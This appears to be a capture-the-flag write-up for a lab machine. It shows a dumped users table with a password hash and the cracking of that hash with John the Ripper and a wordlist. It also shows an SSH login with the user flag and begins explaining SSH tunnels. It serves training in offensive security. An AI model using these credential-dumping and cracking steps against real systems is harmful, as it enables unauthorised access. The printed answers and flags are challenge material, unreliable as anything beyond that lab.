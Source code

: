 ##   Answer the questions below

**In the users table, what is the hashed password?**

- ``cat log``

```shell
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
````

**What was the username associated with the hashed password?**

- agent47

**What was the other table name?**

- post

* * * 

## Task 4 - Cracking a password with JohnTheRipper 

![0xskar](/assets/johntheripper.png)

##   Answer the questions below

**What is the de-hashed password?**

1. ``echo ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 > ../agent47-hash.txt``
2. ``john agent47-hash.txt --wordlist=/usr/share/seclists/Passwords/rockyou.txt --format=Raw-SHA256``
3. videogamer124

**Now you have a password and username. Try SSH'ing onto the machine.** **What is the user flag?**

```shell
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

* * * 

## Task 5 - Exposing services with reverse SSH tunnels 

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Going to localhost:9000 on your machine, will load imgur traffic using your other server.
